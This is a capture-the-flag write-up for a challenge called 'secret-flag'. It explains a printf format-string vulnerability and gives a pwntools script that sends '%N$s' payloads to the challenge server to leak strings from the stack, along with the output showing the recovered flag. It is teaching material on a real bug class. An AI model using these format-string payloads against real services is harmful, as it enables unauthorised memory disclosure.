 # secret-flag
This is a typical `printf()` exploit as the challenge hints us
```
There's a super secret flag in printf that allows you to LEAK the data at an address??
```
## printf
Printf is the format string function, by using different flags, we can get different types of variables. If nothing is specified to be the input and there fore nothing is placed on the stack, if we insert flags to printf, it will just read the data on the top of the stack down.
We can use this "bug" to lead as much data as we want.

## the exploit
We want to leak the values on the stack. First I tried to use the flags and see what we can get, but there is a twist
```
What is your name, young adventurer?
%s %s %s      
Hello there: Hello there:  (null) (null)
```
This one works out nicely, but check what happens when I enter more that 3 `%s`
```
What is your name, young adventurer?
%s %s %s %s
Hello there: [1]    3000 segmentation fault (core dumped)  ./secret-flag
```
The program crashes! Apparently the flag should hid down the stack, but how can we get over this?
Well we could use `% #number $s`, the number is how far you want to look back on the stack. By doing this, we could just request one stack location at a time but we can do this many times. So I wrote a script to do this

## script
```python
from pwn import *
context.log_level='critical'
host,port="2020.redpwnc.tf",31826
for i in range(10):
    s=remote(host,port)
    s.recvline()
    s.recvline()
    s.sendline('%'+str(i)+'$s')
    try:
        responce=s.recvline().decode("utf-8")
        print(responce)
    except:
        print("Fault")
```
This is a simple script that crawls through `1-10` on the stack by running `%5$s` to find strings(we want string because the flag should be a string). We try to decode the recieve text to readable characters, and if it doesn't work, we just pass.
OUTPUT:
```
Hello there: %0$s

Hello there: Hello there: 

Hello there: 

Fault
Hello there: 

Fault
Fault
Hello there: flag{n0t_s0_s3cr3t_f1ag_n0w}

Fault
Fault
```
And theres the flag on the stack somewhere!
